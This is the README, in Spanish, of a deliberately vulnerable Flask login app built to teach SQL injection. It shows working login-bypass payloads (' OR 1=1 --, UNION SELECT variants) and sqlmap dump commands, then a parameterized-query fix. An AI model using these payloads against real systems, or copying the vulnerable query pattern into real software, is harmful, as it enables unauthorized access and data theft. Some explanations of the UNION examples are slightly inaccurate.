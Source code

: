 # SQL Injection Example

Ejemplo de *malas prácticas* en el desarrollo de aplicaciones web que permiten la inyección de código SQL.

Esta aplicación web de muestra contiene un formulario de login que permite el acceso a un área privada. El formulario de login está implementado en Flask y utiliza una base de datos SQLite para almacenar los usuarios y sus contraseñas.

## Ejecución

Para ejecutar la aplicación, es necesario instalar las dependencias de Python que se encuentran en el fichero `requirements.txt`:

```bash
pip install -r requirements.txt
```

Una vez instaladas las dependencias, se puede ejecutar la aplicación con el siguiente comando:

```bash
python app.py
```

## Inyección de código SQL

La aplicación web permite el acceso a un área privada a los usuarios que se encuentran en la base de datos. Para acceder al área privada, es necesario introducir un usuario y una contraseña válidos. Si el usuario y la contraseña son correctos, se muestra un mensaje de bienvenida. En caso contrario, se muestra un mensaje de error.

La aplicación web es (deliberadamente) vulnerable a la inyección de código SQL. Esto significa que un atacante puede introducir código SQL en el formulario de login para acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 1

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' OR 1=1 --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `1=1` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 2

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' UNION SELECT * FROM users WHERE username='admin' --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' UNION SELECT * FROM users WHERE username='admin' --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `username='admin'` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 3

El siguiente ejemplo muestra cómo un atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos. Para ello, el atacante introduce el siguiente código en el formulario de login:

```
' UNION SELECT * FROM users WHERE username='admin' AND password LIKE '%a%' --
```

El código anterior se traduce en la siguiente consulta SQL:

```sql
SELECT * FROM users WHERE username='' UNION SELECT * FROM users WHERE username='admin' AND password LIKE '%a%' --' AND password=''
```

La consulta SQL anterior devuelve todos los usuarios de la base de datos, ya que la condición `username='admin'` siempre es verdadera. Por lo tanto, el atacante puede acceder al área privada sin conocer un usuario y una contraseña válidos.

### Ejemplo 4

El siguiente ejemplo hace uso de la herramienta `sqlmap` para obtener información de la base de datos. Es necesario instalar dicha herramienta y ejecutar alguno de los siguientes comandos:

```bash
sqlmap -u http://localhost:5000/login --data "username=whatever&password=youwant" --dump-all --schema
```

También se puede utilizar la opción `--wizard` para obtener información de la base de datos de forma asistida.

```bash
sqlmap -u http://localhost:5000/login --wizard
```

## Solución

Para evitar la inyección de código SQL, es necesario utilizar *consultas parametrizadas*. En Python, las consultas parametrizadas se pueden utilizar con el método `execute` de la clase `Cursor` de la librería `sqlite3`. Por ejemplo:

```python
cursor.execute('SELECT * FROM users WHERE username=? AND password=?', (username, password))
```

## Referencias

* [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [SQL Injection](https://portswigger.net/web-security/sql-injection)
* [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)
* [SQL Injection](https://www.sqlinjection.net/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [SQL Injection](https://www.imperva.com/learn/application-security/sql-injection-sqli/)
* [SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection/)
* [SQL Injection](https://www.veracode.com/security/sql-injection)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/types-of-sql-injection/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/how-to-prevent-sql-injection/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-example/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-prevention/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-union-attacks/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-in-insert-queries/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-in-update-queries/)
* [SQL Injection](https://www.cloudflare.com/learning/security/threats/sql-injection/sql-injection-in-stored-procedures/)
